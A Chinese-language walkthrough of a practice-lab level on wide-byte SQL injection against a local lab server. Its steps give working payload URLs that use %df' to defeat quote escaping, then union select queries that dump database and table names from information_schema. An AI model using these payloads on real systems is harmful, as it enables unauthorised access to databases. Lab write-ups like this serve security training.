

# Less-06_宽字节注入
1.  http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1’ 此时返回正常，由题目知道是宽字节注入，所以直接引入%df’
2. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df’ 页面发生报错
3. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df‘ order by 2--+ 使用order by语句，发现存在两列   这里开始就和前面的第一关一模一样了
4. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df‘ union select 1,2 --+ 发现2出现在页面中
5. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df‘ union select 1,database() --+ 查询当前的数据库为 webug_width_byte
6. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df‘ union select 1,group_concat(schema_name) from information_schema.schemata --+或者使用这个，一次性取出所有的数据
7. http://192.168.80.136/control/sqlinject/width_byte_injection.php?id=1%df‘ union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x77656275675f77696474685f62797465 --+(注意：这里不能直接使用where table_name=’ webug_width_byte ’,因为单引号被转义掉了)
8. 接下里就是正常的注入流程了！